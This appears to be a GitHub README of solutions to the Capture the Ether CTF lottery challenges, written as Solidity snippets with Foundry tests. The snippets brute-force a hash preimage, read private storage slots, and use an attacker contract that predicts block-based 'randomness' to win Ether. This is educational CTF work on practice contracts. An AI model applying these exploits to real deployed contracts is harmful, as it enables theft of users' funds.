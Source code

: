 # Capture the Ether Solutions

Solutions to the [Capture The Ether](https://capturetheether.com/challenges/) CTF challenges using Foundry ⛳️

## Disclaimer

Most of the contracts were rewritten slightly so they still compile with newer solidity versions. Comments were added for those parts.

## Contents

-   [Lotteries](#lotteries)
    -   [Guess the number](#guess-the-number)
    -   [Guess the secret number](#guess-the-secret-number)
    -   [Guess the random number](#guess-the-random-number)
    -   [Guess the new number](#guess-the-new-number)

## Lotteries

### Guess the number

Call the `guess` function with the `answer` number `42` which is hardcoded in the contract

```solidity
challenge.guess{value: 1 ether}(42);
```

[Test](./test/lotteries/TestGuessTheNumberChallenge.t.sol)

### Guess the secret number

The answer `n` is now a number that produces a specific `answerHash` which is not reversible

```solidity
function guess(uint8 n) public payable {
        require(msg.value == 1 ether);

        // if (keccak256(n) == answerHash) {
        //     msg.sender.transfer(2 ether);
        // }

        if (keccak256(abi.encodePacked(n)) == answerHash) {
            payable(msg.sender).transfer(2 ether);
        }
    }
```

The answer `n` is defined as a `uint8`, which ranges from 0 to 255. We can brute force the answer via a for-loop until we get the specific hash.

```solidity
for (uint8 i = 0; i <= type(uint8).max; i++) {
            bytes32 currentHash = keccak256(abi.encodePacked(i));

            if (currentHash == answerHash) {
                // log result
                console.log("Correct answer: ", i);

                // call contract
                vm.prank(user);
                challenge.guess{value: 1 ether}(i);
            }
        }
```

[Test](./test/lotteries/TestGuessTheSecretNumberChallenge.t.sol)

### Guess the random number

In this case the answer is generated "randomly" and stored "internally" in the contract (default visibility of state variables is 'internal'):

```solidity
constructor() payable {
        require(msg.value == 1 ether);
        answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
    }
```

Data in smart contracts can be read despite being declared as "internal" because in the end all data on the blockchain is public. The key here is to understand how the storage works, and that the `answer` is stored in `slot 0` and therefore can be retrieved by calling:

```solidity
uint8 answer = uint8(uint256(vm.load(address(challenge), 0)));
```

[Test](./test/lotteries/TestGuessTheRandomNumberChallenge.t.sol)

### Guess the new number

The answer is a "random" number generated inside the function call:

```solidity
function guess(uint8 n) public payable {
        require(msg.value == 1 ether);

        uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );

        if (n == answer) {
            payable(msg.sender).transfer(2 ether);
        }
    }
```

This answer isn't actually random though. The EVM is deterministic, so it is not possible to achieve randomness inside it. Given the same inputs, it will output the same result, and we can exploit this.
We can create a new contract that calculates the answer and calls the original contract with it. That way we can make sure that the "random" number is generated on the same block, and we can win every time.

```solidity
        uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );

        i_challenge.guess{value: 1 ether}(answer);
```

This only works if you let the attacker contract receive Ether:

```solidity
receive() external payable {}
```

And don't forget to transfer the Ether from the attacker contract to your address (or create a withdraw function only callable by you) 💸

[Test](./test/lotteries/TestGuessTheNewNumberChallenge.t.sol)
